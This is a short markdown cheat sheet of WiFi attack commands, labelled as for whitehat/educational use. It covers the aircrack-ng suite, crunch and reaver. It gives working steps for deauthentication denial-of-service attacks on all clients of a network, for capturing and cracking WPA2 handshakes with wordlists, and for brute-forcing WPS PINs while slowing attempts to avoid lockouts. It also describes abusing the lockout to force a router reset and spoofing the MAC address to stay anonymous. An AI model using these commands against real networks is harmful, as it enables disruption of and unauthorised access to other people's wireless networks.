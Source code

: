 ```yaml
---
title: WiFi
type: docs
---
```


**These notes are intended for Whitehat/Educational purposes only**  


## Configure Machine  
Use `ifconfig` to determine device name (assume wlan0 for cmds)  
`ifconfig wlan0 down` - take device down  
`iwconfig wlan0 mode monitor` - set monitor mode  
`ifconfig wlan0 up` - bring device back up

`airmon-ng check wlan0` - Make sure nothing is interfering with your device  
Kill processes (kill network manager first)  

## Useful Commands  
Remember to change your mac address (notes on [this page](./staying-anonymous.md)).  
`airodump-ng wlan0` - Show wireless access points and connected devices  
`airodump-ng -c CHANNEL --bssid MAC -w FILENAME DEVICE` - lookat traffic on a specific device  
`aireplay-ng -0 0 -a MAC DEVICE` - DOS attack a wireless network  

### To crack WPA2  
Force user(s) to disconnect using a DOS attack, then watch them recconect and capture the handshake.  
`aircrack-ng -w WORDFILE CAPFILE -e ESSID` - Try to crack capture file with word list  
`crunch MINLEN MAXLEN -t PATTERN | aircrack-ng -w -CAPFILE -e ESSID` - Try to crack with pipe from crunch (this operation is happening locally against the file not live against the router)  
 
### To crack WPS
Use `wash -i DEVICE` to view available routers to attack without wps locked.  
Use `airodump-ng` to confirm you have good enough range.  
Use `reaver` to orchestrate your attack.  
WPS uses either a 4 or 8 digit pin of consisting of only numbers, you should disable it on your router (usually enabled by default).  
Many routers will disable pin access for some period of time after too many failed attempts (ratelimiting), you can adjust `reaver` to try less often to avoid tripping this failsafe.  
That same falesafe makes it easy to perform DOS on networks that rely on WPS authentication. If the ratelimiting locks you out completely, you can DOS it hard enough to try and force a the administrator to reset their router.  

### DOS Attacks  
Basically impossible to stop.  
May need to set the channel of your wifi card `iwconfig DEVICE channel CHANNEL`  
Then use `aireplay-ng -0 0 -a MAC DEVICE`, to DOS all connected machines.  
